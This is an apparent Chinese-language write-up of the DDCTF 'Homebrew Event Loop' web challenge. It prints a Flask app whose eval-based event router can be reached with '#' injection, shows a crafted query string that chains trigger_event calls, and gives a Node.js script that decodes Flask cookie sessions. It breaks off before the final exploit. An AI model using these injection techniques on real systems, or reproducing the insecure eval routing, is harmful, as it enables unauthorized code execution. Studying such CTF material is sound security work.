

# 0x04. Web 4 - Homebrew Event Loop
## 题目
> homebrew event loop
> 
> Flag格式：DDCTF{.....}，也就是请手动包裹上DDCTF{}  
> http://116.85.48.107:5002/d5af31f66147e857  

## 解题过程
### First time Review
这是一道非常有意思的题目。

通过题目入口可以直接拿到 [Python 源文件](http://116.85.48.107:5002/d5af31f66147e857/?action:index;True%23False)：

```python
# -*- encoding: utf-8 -*- 
# written in python 2.7 
__author__ = 'garzon' 

from flask import Flask, session, request, Response 
import urllib 

app = Flask(__name__) 
app.secret_key = '*********************' # censored 
url_prefix = '/d5af31f66147e857' 

def FLAG(): 
    return 'FLAG_is_here_but_i_wont_show_you'  # censored 
     
def trigger_event(event): 
    session['log'].append(event) 
    if len(session['log']) > 5: session['log'] = session['log'][-5:] 
    if type(event) == type([]): 
        request.event_queue += event 
    else: 
        request.event_queue.append(event) 

def get_mid_str(haystack, prefix, postfix=None): 
    haystack = haystack[haystack.find(prefix)+len(prefix):] 
    if postfix is not None: 
        haystack = haystack[:haystack.find(postfix)] 
    return haystack 
     
class RollBackException: pass 

def execute_event_loop(): 
    valid_event_chars = set('abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_0123456789:;#') 
    resp = None 
    while len(request.event_queue) > 0: 
        event = request.event_queue[0] # `event` is something like "action:ACTION;ARGS0#ARGS1#ARGS2......" 
        request.event_queue = request.event_queue[1:] 
        if not event.startswith(('action:', 'func:')): continue 
        for c in event: 
            if c not in valid_event_chars: break 
        else: 
            is_action = event[0] == 'a' 
            action = get_mid_str(event, ':', ';') 
            args = get_mid_str(event, action+';').split('#') 
            try: 
                event_handler = eval(action + ('_handler' if is_action else '_function')) 
                ret_val = event_handler(args) 
            except RollBackException: 
                if resp is None: resp = '' 
                resp += 'ERROR! All transactions have been cancelled. <br />' 
                resp += '<a href="./?action:view;index">Go back to index.html</a><br />' 
                session['num_items'] = request.prev_session['num_items'] 
                session['points'] = request.prev_session['points'] 
                break 
            except Exception, e: 
                if resp is None: resp = '' 
                #resp += str(e) # only for debugging 
                continue 
            if ret_val is not None: 
                if resp is None: resp = ret_val 
                else: resp += ret_val 
    if resp is None or resp == '': resp = ('404 NOT FOUND', 404) 
    session.modified = True 
    return resp 
     
@app.route(url_prefix+'/') 
def entry_point(): 
    querystring = urllib.unquote(request.query_string) 
    request.event_queue = [] 
    if querystring == '' or (not querystring.startswith('action:')) or len(querystring) > 100: 
        querystring = 'action:index;False#False' 
    if 'num_items' not in session: 
        session['num_items'] = 0 
        session['points'] = 3 
        session['log'] = [] 
    request.prev_session = dict(session) 
    trigger_event(querystring) 
    return execute_event_loop() 

# handlers/functions below -------------------------------------- 

def view_handler(args): 
    page = args[0] 
    html = '' 
    html += '[INFO] you have {} diamonds, {} points now.<br />'.format(session['num_items'], session['points']) 
    if page == 'index': 
        html += '<a href="./?action:index;True%23False">View source code</a><br />' 
        html += '<a href="./?action:view;shop">Go to e-shop</a><br />' 
        html += '<a href="./?action:view;reset">Reset</a><br />' 
    elif page == 'shop': 
        html += '<a href="./?action:buy;1">Buy a diamond (1 point)</a><br />' 
    elif page == 'reset': 
        del session['num_items'] 
        html += 'Session reset.<br />' 
    html += '<a href="./?action:view;index">Go back to index.html</a><br />' 
    return html 

def index_handler(args): 
    bool_show_source = str(args[0]) 
    bool_download_source = str(args[1]) 
    if bool_show_source == 'True': 
     
        source = open('eventLoop.py', 'r') 
        html = '' 
        if bool_download_source != 'True': 
            html += '<a href="./?action:index;True%23True">Download this .py file</a><br />' 
            html += '<a href="./?action:view;index">Go back to index.html</a><br />' 
             
        for line in source: 
            if bool_download_source != 'True': 
                html += line.replace('&','&amp;').replace('\t', '&nbsp;'*4).replace(' ','&nbsp;').replace('<', '&lt;').replace('>','&gt;').replace('\n', '<br />') 
            else: 
                html += line 
        source.close() 
         
        if bool_download_source == 'True': 
            headers = {} 
            headers['Content-Type'] = 'text/plain' 
            headers['Content-Disposition'] = 'attachment; filename=serve.py' 
            return Response(html, headers=headers) 
        else: 
            return html 
    else: 
        trigger_event('action:view;index') 
         
def buy_handler(args): 
    num_items = int(args[0]) 
    if num_items <= 0: return 'invalid number({}) of diamonds to buy<br />'.format(args[0]) 
    session['num_items'] += num_items  
    trigger_event(['func:consume_point;{}'.format(num_items), 'action:view;index']) 
     
def consume_point_function(args): 
    point_to_consume = int(args[0]) 
    if session['points'] < point_to_consume: raise RollBackException() 
    session['points'] -= point_to_consume 
     
def show_flag_function(args): 
    flag = args[0] 
    #return flag # GOTCHA! We noticed that here is a backdoor planted by a hacker which will print the flag, so we disabled it. 
    return 'You naughty boy! ;) <br />' 
     
def get_flag_handler(args): 
    if session['num_items'] >= 5: 
        trigger_event('func:show_flag;' + FLAG()) # show_flag_function has been disabled, no worries 
    trigger_event('action:view;index') 
     
if __name__ == '__main__': 
    app.run(debug=False, host='0.0.0.0') 
```

Review 整个源文件，可以得到很明确的目标： **捕获 `FLAG()` 函数的返回值** 。

从唯一一处调用 `FLAG()` 函数的 `get_flag_handler(args)` 快速向上分析：
1. 必须是在 `session['num_items'] >= 5` 时执行 `get_flag_handler(args)` 才能使 `FLAG()` 函数执行。
2. 此处函数 `FLAG()` 执行后的返回值会被拼接后传入 `trigger_event(event)`。
3. 所有 `trigger_event(event)` 执行时的参数 `event` 都会被写入 session 中的日志 (`session['log']`)。（很诡异了
4. `trigger_event(event)` 执行时，会把当前任务 (`event`) 推进当前请求实例中的一个队列 (`request.event_queue`)。
5. `trigger_event(event)` 的参数 `event` 可以是字符串类型或者数组类型。（很美但没必要，这里也有点诡异
6. 没了。（嗯

### Homebrew Event Loop, and Router

从文件头部导入的依赖可以了解到，这是一个基于 Flask 框架的 Web Server。  
那么我们从唯一一处设置了 Flask 路由 (`@app.route(...)`) 的函数 `entry_point()` 向下分析，看看这个 Server 究竟做了什么事情：

```python
@app.route(url_prefix+'/') 
def entry_point(): 
    querystring = urllib.unquote(request.query_string) 
    request.event_queue = [] 
    if querystring == '' or (not querystring.startswith('action:')) or len(querystring) > 100: 
        querystring = 
    if 'num_items' not in session: 
        session['num_items'] = 0 
        session['points'] = 3 
        session['log'] = [] 
    request.prev_session = dict(session) 
    trigger_event(querystring) 
    return execute_event_loop()
```

1. 接受 QueryString，并作为 `event` 参数调用 `trigger_event(event)`。
2. Querystring 只允许以 `'action:'` 开头，长度不得超过 100 字符；否则都将被过滤并改为调用 `trigger_event('action:index;False#False')`。
3. Session 为空时会自动重置为默认值。
4. Session 在操作前会先把原值拷贝至当前请求实例中，应该是作为备份。
5. 此处调用 `trigger_event(event)` 后，会立即调用 `execute_event_loop()`。

那么 `execute_event_loop()`  干了什么呢：

```python
def execute_event_loop(): 
    valid_event_chars = set('abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_0123456789:;#') 
    resp = None 
    while len(request.event_queue) > 0: 
        event = request.event_queue[0] # `event` is something like "action:ACTION;ARGS0#ARGS1#ARGS2......" 
        request.event_queue = request.event_queue[1:] 
        if not event.startswith(('action:', 'func:')): continue 
        for c in event: 
            if c not in valid_event_chars: break 
        else: 
            is_action = event[0] == 'a' 
            action = get_mid_str(event, ':', ';') 
            args = get_mid_str(event, action+';').split('#') 
            try: 
                event_handler = eval(action + ('_handler' if is_action else '_function')) 
                ret_val = event_handler(args) 
            except RollBackException: 
                if resp is None: resp = '' 
                resp += 'ERROR! All transactions have been cancelled. <br />' 
                resp += '<a href="./?action:view;index">Go back to index.html</a><br />' 
                session['num_items'] = request.prev_session['num_items'] 
                session['points'] = request.prev_session['points'] 
                break 
            except Exception, e: 
                if resp is None: resp = '' 
                #resp += str(e) # only for debugging 
                continue 
            if ret_val is not None: 
                if resp is None: resp = ret_val 
                else: resp += ret_val 
    if resp is None or resp == '': resp = ('404 NOT FOUND', 404) 
    session.modified = True 
    return resp 
```

1. 不断从请求实例的 `event_queue` 队列中取出最前的一个事件。
2. 取出的事件会被解析成句柄方法类型 (action or function) 、动作名和参数值数组的组合；并以这三段数据调用指定的句柄方法 (handler)。（相当于自己造路由！
3. 捕获到自定义的回滚异常 (RollBackException) 时，把 session 中的 `num_items` 和 `points` 数据回滚至刚收到请求时的状态。（有必要 ~~，但从设计的角度说，这个操作放在这里稍显不合适~~
4. 将 handler 执行的结果拼接，并响应回给客户端。

所以！  
点题了！  
出题人在这里实现了个 ~~简易的~~ [Event Loop](https://en.wikipedia.org/wiki/Event_loop) !

回顾前面的代码，便能理解 `trigger_event(event)` 的意义： **为 Event Loop 提供推任务入队列的接口** —— 这也就意味着，这是一个 **异步** 操作。（注意了

接着回到刚才的 `execute_event_loop()` 。在出题人自己造的路由 ~~（homebrew router~~ 里出现了一个 `eval`，用于实现 handler 调用：

```python
# ...
event_handler = eval(action + ('_handler' if is_action else '_function')) 
ret_val = event_handler(args) 
```

—— 那么也就给了我们 **执行代码** 的机会。

通过 review 解析出 `action` 和 `args` 的过程，可以了解到：

1. 这两个变量来自于 Event Loop 队列中的每一个 `event`。
2. `event` 中第一段介于 `':'` 和 `';'` 的值为 `action`。
3. `action + ';'` 后方的全部值通过 `#` 分割为 `args` 数组。
4. 根据 `action` 前方的值将解析出句柄方法类型，有且仅有两种值：`'action:'` 对应 `'_handler'`，`'func:'` 对应 `'_function'`；该值会在后续 `eval(...)` 时添加至参数尾部；这样做的目的是限制该 `eval` 访问的方法只允许是用这两种后缀命名的 handler（算是一种不太严谨的沙箱保护）。
5. `event` 的值在被解析前会先经历一次白名单检查；如果出现了不在白名单内的字符，将直接结束 Event Loop（丢弃本次以及后续所有未执行的任务）；白名单内的字符为：

    ```
    abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_0123456789:;#
    ```

这也就解释了 `entry_point()` 中 QueryString 限制的意图：限制由客户端直接触发的 handler 必须含后缀名 `'_handler'`。 

但这个限制真的有效吗？

源代码中给出字符白名单虽然很干净，没有空格、引号和括号，但却出现了 `#` —— 恰好可以被利用于绕过后缀限制：

```python
# 伪代码
event = 'action:show_flag_function#;'
# ...
event_handler = eval(action + ('_handler' if is_action else '_function')) 
# -> event_handler = eval('show_flag_function#’ + '_handler')
# -> event_handler = eval('show_flag_function#_handler')
# <- show_flag_function
```

这便是 `show_flag_function(args)` 中注释所提到的原后门 (backdoor) 的触发方式。而原后门的代码已经被注释掉，并且替换成了一句调戏攻击者的消息：

```
You naughty boy! ;)
```

但这不过是小试牛刀。  
我们还可以调用 handler 之外的其他方法；因为受限于 Python 解释器的参数检查，在执行 `event_handler(args)` 时，这个方法还必须接受一个参数，参数值为 args 数组。

—— 嗯，是不是想起了 `trigger_event(event)` 中兼容数组类型参数的骚操作？  
来试一下：

```javascript
// 别忘了编码
'http://116.85.48.107:5002/d5af31f66147e857/?' + encodeURIComponent('action:trigger_event#;action:buy;1#action:buy;1')
// <- "http://116.85.48.107:5002/d5af31f66147e857/?action%3Atrigger_event%23%3Baction%3Abuy%3B1%23action%3Abuy%3B1"
```

TODO:multiple-events.screenshot.jpg

执行过程可以理解为：

```python
# 伪代码
entry('action:trigger_event#;action:buy;1#action:buy;1')
# ...
event_handler = eval(action + ('_handler' if is_action else '_function')) 
# -> event_handler = eval('trigger_event#’ + '_handler')
# -> event_handler = eval('trigger_event#_handler')
# <- trigger_event
ret_val = event_handler(args)
# -> trigger_event(['action:buy;1', 'action:buy;1'])
# ...
```

OK. 这一条线索可以先放一边了。

### Cookie Session
在 `trigger_event(event)` 中另一个诡异的操作是往 session 里写日志。

因为不了解 Python，所以先查了一下 [Flask 的文档](http://flask.pocoo.org/docs/1.0/quickstart/#sessions)，发现 Flask 内置的 session 模块是典型的 Cookie-Session。  
Node.js 的 [express](https://github.com/expressjs/cookie-session) 和 [koa](https://github.com/koajs/session) 框架也有类似的模块（都基于 [pillarjs/cookies](https://github.com/pillarjs/cookies) 实现）。  
甚至前面另一道题 [web2](../2/readme.md) 中的 session 也是属于这种机制。

正如 Flask 文档所述，这种存放在 cookie 中的 session 是客户端不可改但可读的：

> This is implemented on top of cookies for you and signs the cookies cryptographically. What this means is that the user could look at the contents of your cookie but not modify it, unless they know the secret key used for signing.
> —— [Flask Session](http://flask.pocoo.org/docs/1.0/quickstart/#sessions)

[phith0n 的这篇文章](https://www.leavesongs.com/PENETRATION/client-session-security.html) 详细介绍了错误使用这类 session 引发的安全问题以及利用方式。

回到题目中来 —— 解析出 flask session 原始值的方法并不复杂，这里我用 Node.js 写个脚本：

```javascript
const zlib = require('zlib')

function decrypt (session) {
  let buf = Buffer.from(session.split('.')[1], 'base64')
  return JSON.parse(zlib.unzipSync(buf).toString())
}

console.log(JSON.stringify(decrypt('.eJyrVsrJT1eyiq5WUkhSslKKDPczSAy3LPXPiyqIikg2Tww3zY6KSLdVqtXBUBFUmRiekhcV4ZUWFRGVk5QXmOVv5JaV4p5TlpRVkJkSkW3uG-yXEWkcVJBkZGIWmRdm6l_lCjIJw7JcL8PUkOIKLJbAZWLhuqLywkojqwqykoxMq1LCDXMijJ3KgM40gBpO0CNUNClWRymvNDc-syQ1t1jJykhHqSA_M68EyDSsBQBdSW0G.D5yNHg.KgvYMqMOkkGOcZecQK0vCT3cQQM'))
// <- {"log":[{" b":"YWN0aW9uOnZpZXc7aW5kZXg="},{" b":"YWN0aW9uOnRyaWdnZXJfZXZlbnQjO2FjdGlvbjpidXk7MSNhY3Rpb246YnV5OzE="},[{" b":"YWN0aW9uOmJ1eTsx"},{" b":"YWN0aW9uOmJ1eTsx"}],[{" b":"ZnVuYzpjb25zdW1lX3BvaW50OzE="},{" b":"YWN0aW9uOnZpZXc7aW5kZXg="}],[{" b":"ZnVuYzpjb25zdW1lX3BvaW50OzE="},{" b":"YWN0aW9uOnZpZXc7aW5kZXg="}]],"num_items":2,"points":1}
```

然后提取 `session["log"]` 的值并做 base64 解码：

```javascript
const flatten = require('just-flatten-it')
const { base64 } = require('../common/utils')

function readLogs (payload) {
  return flatten(payload.log).map((log) => base64.decode(log[' b']))
}

console.log(readLogs({"log":[{" b":"YWN0aW9uOnZpZXc7aW5kZXg="},{" b":"YWN0aW9uOnRyaWdnZXJfZXZlbnQjO2FjdGlvbjpidXk7MSNhY3Rpb246YnV5OzE="},[{" b":"YWN0aW9uOmJ1eTsx"},{" b":"YWN0aW9uOmJ1eTsx"}],[{" b":"ZnVuYzpjb25zdW1lX3BvaW50OzE="},{" b":"YWN0aW9uOnZpZXc7aW5kZXg="}],[{" b":"ZnVuYzpjb25zdW1lX3BvaW50OzE="},{" b":"YWN0aW9uOnZpZXc7aW5kZXg="}]],"num_items":2,"points":1}))
// <- [ 'action:view;index',
// <-   'action:trigger_event#;action:buy;1#action:buy;1',
// <-   'action:buy;1',
// <-   'action:buy;1',
// <-   'func:consume_point;1',
// <-   'action:view;index',
// <-   'func:consume_point;1',
// <-   'action:view;index' ]
```

便成功读到 `trigger_event(event)` 的操作日志。

### Async
现在我们已经能够随意执行 `trigger_event(event)`，并且通过 Cookie-Ssession 读取执行 `trigger_event(event)` 的日志了。结合开头对 `get_flag_handler(args)` 的分析，接下来的目标则是让 `session['num_items'] > 5`，使得 `trigger_event('func:show_flag;' + FLAG())` 被执行。

检查能够使 `session['num_items']` 增加的方法（也就是购买操作）：

```python
def buy_handler(args): 
    num_items = int(args[0]) 
    if num_items <= 0: return 'invalid number({}) of diamonds to buy<br />'.format(args[0]) 
    session['num_items'] += num_items  
    trigger_event(['func:consume_point;{}'.format(num_items), 'action:view;index']) 
     
def consume_point_function(args): 
    point_to_consume = int(args[0]) 
    if session['points'] < point_to_consume: raise RollBackException() 
    session['points'] -= point_to_consume 
  
```

那么逻辑大致是：



## 涉及资料
- 源代码
  - [完整通关脚本](./index.js)
- 知识点
  - [Event Loop](https://en.wikipedia.org/wiki/Event_loop)
  - [Reactor Pattern](https://en.wikipedia.org/wiki/Reactor_pattern)
  - [amandakelake/blog - 事件循环机制 Event-Loop及其延伸](https://github.com/amandakelake/blog/issues/26)
  - [客户端 session 导致的安全问题](https://www.leavesongs.com/PENETRATION/client-session-security.html)
  - [Python Web之flask session&格式化字符串漏洞](https://xz.aliyun.com/t/3569)
  - [pillarjs/cookies](https://github.com/pillarjs/cookies)
  - [koajs/session](https://github.com/koajs/session)
  - [expressjs/cookie-session](https://github.com/expressjs/cookie-session)

## EOF
[下一题](../5/readme.md)  
[回到目录](../../readme.md)
